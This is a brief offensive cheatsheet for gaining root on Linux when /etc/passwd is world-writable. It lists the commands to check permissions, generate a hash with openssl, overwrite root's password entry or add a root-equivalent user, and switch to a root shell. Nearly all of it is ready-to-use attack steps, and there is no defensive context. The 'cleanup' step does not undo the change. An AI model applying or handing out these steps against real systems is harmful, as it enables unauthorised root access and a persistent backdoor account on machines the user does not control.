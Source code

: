## /etc/passwd Privilege Escalation Cheatsheet

**Precondition:**

- `/etc/passwd` is **world-writable**

### 1. Check permissions

```bash
ls -l /etc/passwd
```

### 2. Generate password hash

```bash
openssl passwd -1 newpasswordhere
```

### 3. Edit `/etc/passwd`

Option A – replace root’s password hash:

```
root:etIsHFk/.HeMQ:0:0:root:/root:/bin/bash
```

Option B – add a new root-equivalent user:

```
newroot:<HASH>:0:0:root:/root:/bin/bash
```

### 4. Get root shell

```bash
su root
# or
su newroot
```

### 5. Cleanup

```bash
exit
```

---
